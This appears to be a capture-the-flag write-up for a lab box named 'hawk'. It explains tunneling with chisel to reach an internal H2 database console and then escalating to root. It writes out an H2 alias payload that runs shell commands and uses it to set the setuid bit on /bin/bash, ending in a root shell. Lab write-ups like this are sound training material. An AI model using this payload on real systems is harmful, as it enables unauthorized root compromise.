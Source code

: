 # 20 - H2 


# Remote connections are disabled
![](vx_images/2832611022789.png)

Since we got shell access to this box, we can create a tunnel. SSH tunneling didn't work on this box it may have something to do with port 22, maybe a firewall is dropping connection requests to port 22 but I just didn't feel like using ssh on another port so I decided to use chisel for tunneling.

# [Chisel](https://github.com/jpillora/chisel)

![](vx_images/2919165837133.png)

Start up chisel server on port 8081 and allow reverse port forwarding, this will help us connect to port 8082 locally from our box through tunneling. I have Burp running on 8080 so I wanted to go with 8081 for chisel



# Chisel Client
![](vx_images/5427281707319.png)


R:8082:127.0.0.1:8082

* R  for reverse tunneling this will open a port on our box for forwarding.
* 8082 is the listening port for forwarding
* 127.0.0.1:8082 is the final address to forward to with respect to chisel client

In other words any request we make to port 8082 on our box will be forwarded to the other box on port 8082 through chisel.

# Request through tunneling

![](vx_images/4056528801459.png)


Now we are allowed to view the page



# H2 with root permissions
```sql
www-data@hawk:/dev/shm$ ps aux  | grep h2 | grep -v grep
root        791  0.0  0.0   4628   744 ?        Ss   09:03   0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
root        792  0.0  4.6 2331304 46100 ?       Sl   09:03   0:07 /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
```

This looks like a privilege escalation target.



# Test Successful
![](vx_images/5095957158900.png)

New database ~/ennozdd with default blank password


![](vx_images/4149540716423.png)

# [Code execution as root](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)

![](vx_images/4735391515515.png)

# Enable setuid
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('chmod +s /bin/bash')
```

# Root shell
```sql
daniel@hawk:/dev/shm$ bash -p
bash-4.4# id
uid=1002(daniel) gid=1005(daniel) euid=0(root) egid=0(root) groups=0(root),1005(daniel)
bash-4.4# 
```